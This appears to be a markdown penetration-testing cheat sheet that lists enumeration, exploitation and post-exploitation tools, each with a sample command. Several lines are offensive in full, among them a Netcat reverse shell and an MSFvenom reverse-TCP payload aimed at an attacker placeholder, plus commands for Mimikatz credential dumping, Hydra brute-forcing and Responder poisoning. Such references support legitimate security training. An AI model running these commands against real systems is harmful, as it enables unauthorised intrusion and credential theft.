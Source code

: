 # Tools

## Enumeration Tools

These tools are essential for gathering information about the target system, such as open ports, services, and potential vulnerabilities.

- **Nmap**: A powerful network scanning tool used to discover hosts, services, and vulnerabilities.
  - Command: `nmap -sC -sV -oA scan_results <target_ip>`
  
- **Nikto**: A web server scanner that identifies various vulnerabilities like outdated software, security misconfigurations, and common web server issues.
  - Command: `nikto -h <target_ip>`

- **DirBuster/Dirsearch**: Tools used to perform directory and file brute-forcing on web servers.
  - Command: `dirb http://<target_ip>/`

- **Gobuster**: A tool for directory and DNS busting, often used for finding hidden directories or subdomains.
  - Command: `gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt`

- **Enum4linux**: A Linux tool used to gather information from Windows machines using SMB.
  - Command: `enum4linux -a <target_ip>`

- **SMBclient**: A client for accessing shared folders on Windows machines via SMB.
  - Command: `smbclient //target_ip/share -U username`

- **Netcat**: A versatile networking tool used for connecting to remote systems and debugging or scanning networks.
  - Command: `nc -lvp 4444` (for listening on a local port)

- **Netdiscover**: A tool for discovering hosts in a local network via ARP requests.
  - Command: `netdiscover -r 192.168.1.0/24`

- **WhatWeb**: A web application fingerprinting tool to identify technologies and services in use on web servers.
  - Command: `whatweb <target_ip>`

## Exploitation Tools

These tools are used for exploiting known vulnerabilities or misconfigurations in systems and applications.

- **Metasploit Framework**: A powerful exploitation framework used for automating the process of exploiting vulnerabilities.
  - Command: `msfconsole`

- **SQLmap**: A tool for automating SQL injection and database takeover.
  - Command: `sqlmap -u "http://<target_ip>/page?id=1" --dbs`

- **Hydra**: A tool used for brute-force attacks against services like SSH, FTP, HTTP, and more.
  - Command: `hydra -l <username> -P <password_list> ssh://<target_ip>`

- **John the Ripper**: A password cracking tool used to break hashes from various services (including Linux, Windows, and more).
  - Command: `john --wordlist=<password_list> <hash_file>`

- **Mimikatz**: A tool for extracting passwords and other credentials from Windows systems, including Kerberos tickets and clear-text passwords.
  - Command: `mimikatz.exe sekurlsa::logonPasswords`

- **MSFvenom**: A part of the Metasploit framework used to generate payloads for various platforms.
  - Command: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe > payload.exe`

- **Responder**: A tool used to poison network traffic and capture login credentials via LLMNR, NBT-NS, and DNS poisoning.
  - Command: `responder -I eth0`

- **Empire**: A post-exploitation framework that includes powershell agents for lateral movement and persistence.
  - Command: `python2 empire`

- **BeEF (Browser Exploitation Framework)**: A tool used to launch attacks from the browser context by exploiting vulnerabilities in web applications.
  - Command: `./beef`

## Post-Exploitation Tools

These tools are used after successful exploitation to maintain persistence, escalate privileges, and gather further information from compromised systems.

- **Netcat**: Can also be used during post-exploitation for creating reverse shells and tunneling data.
  - Command: `nc -e /bin/bash <attacker_ip> <port>`

- **PowerSploit**: A collection of PowerShell scripts for post-exploitation activities, including privilege escalation, credential dumping, and more.
  - Command: `import-module PowerSploit`

- **Weevely**: A web shell that allows remote access and manipulation of compromised web servers.
  - Command: `weevely generate <password> <webshell_location>`

- **Powershell Empire**: A post-exploitation tool using PowerShell for pivoting, credential harvesting, and data exfiltration.
  - Command: `python2 empire`

- **TheFatRat**: A tool for creating various types of malicious payloads, which can include reverse shells, Trojans, and more.
  - Command: `./setup.sh`

- **Chisel**: A fast TCP/UDP tunnel over HTTP, useful for tunneling traffic through firewalls.
  - Command: `./chisel client <target_ip>:<port> <local_port>:<remote_port>`

- **PrivescCheck**: A tool for checking possible privilege escalation vectors on Windows systems.
  - Command: `PrivescCheck.exe`

- **LinPEAS**: A Linux privilege escalation script that checks for common misconfigurations and vulnerabilities.
  - Command: `./linpeas.sh`

- **LinEnum**: A script that automates the process of enumerating system information and potential privilege escalation vectors in Linux environments.
  - Command: `./linenum.sh`
